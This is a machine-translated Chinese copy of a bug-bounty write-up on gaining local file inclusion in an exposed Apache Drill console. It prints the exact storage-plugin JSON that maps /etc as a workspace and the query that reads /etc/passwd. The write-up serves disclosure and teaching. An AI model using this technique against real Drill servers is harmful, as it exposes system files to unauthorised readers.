

# 我们如何在阿帕奇演习中得到 LFI

> 原文：<https://infosecwriteups.com/how-we-got-lfi-in-apache-drill-recon-like-a-boss-6f739a79d87d?source=collection_archive---------0----------------------->

大家好，

正如我在上一篇博客中承诺的，今天我将写一些关于 LFI 的事情。特别感谢独一无二的乔伯特。

几个月前，我在 [**黑客**](https://hackerone.com) 平台收到了私人邀请。如你所知，侦查在入侵一个程序时起着重要的作用。Recon 并不总是意味着找到属于一个公司的子域名，它也可能涉及到发现一个公司是如何设置其属性和他们正在使用什么资源。

# 什么是 LFI？

```
Local File inclusion (LFI), or simply File Inclusion, refers to an inclusion attack through which an attacker can trick the web application in including files on the web server by exploiting functionality that dynamically includes local files or scripts. The consequence of a successful LFI attack includes Directory Traversal and Information Disclosure as well as Remote Code Execution.Typically, Local File Inclusion (LFI) occurs, when an application gets the path to the file that has to be included as an input without treating it as untrusted input. This would allow a local file to be supplied to the include statement.
```

在 shodan 和 crt.sh 中查找该域名后，我找到了一个，http://ec2-xx-xx-XXX-XXX . us-west-2 . compute . Amazon AWS . com:8047，并开始在那里挖掘，最初几个小时没有成功。后来我发现了像查询、存储标签这样的标签，所以我很快去了他们的文档，阅读所有的东西，以及它如何在[https://drill.apache.org/docs/](https://drill.apache.org/docs/)工作。

# 关于查询的几件事:

```
The query specifies the data source location and includes data casting.Specifying the Data Source Location ¶The optional [USE statement](https://drill.apache.org/docs/use) runs subsequent queries against a particular [storage plugin](https://drill.apache.org/docs/connect-a-data-source-introduction/). The USE statement typically saves typing some of the storage plugin information in the FROM statement. If you omit the USE statement, specify a storage plugin, such as dfs, and optionally a workspace, such as default, and a path to the data source using dot notation and back ticks. For example:
dfs.`default`.`/Users/drill-user/apache-drill-1.1.0/log/sqlline_queries.json`;
```

在理解了一些文件后，我向伟大的黑客 Jobert Abma(hacker one 的联合创始人)寻求帮助，他告诉我们可以试着得到 LFI。

等一会儿，听听音乐。

几分钟后，jobert 拿出了下面的 json 文件，这是他写的 dfs 存储方法:

```
{   "type": "file",  
 "enabled": true, 
  "connection": "file:///", 
  "config": null,   
"workspaces": {     "etc":
 {       "location": "/etc",
       "writable": false,
       "defaultInputFormat": "tsv"     } 
  },   "formats": {  
   "tsv": {     
  "type": "text",     
  "extensions": [ "tsv"], 
   "delimiter": "\t"   
  }   
}
}
```

从查询选项卡中调用它

比如:

```
select * from dfs.etc.`passwd`
```

哇哦！我们只有:



所以，是时候狂欢了！

然后，我们尝试使用多个 json 文件作为 dfs 存储方法，并获得了成功。

呜哇呜！

我一直相信分享就是关爱，我一直在向多位安全研究人员学习。希望你喜欢这个发现。更多的人来了。敬请关注。DM 在 twitter ( [Gujjuboy10x00](https://medium.com/u/7678f2f901d4?source=post_page-----6f739a79d87d--------------------------------) ，hackerone.com/gujjuboy10x00)上对任何问题都是开放的。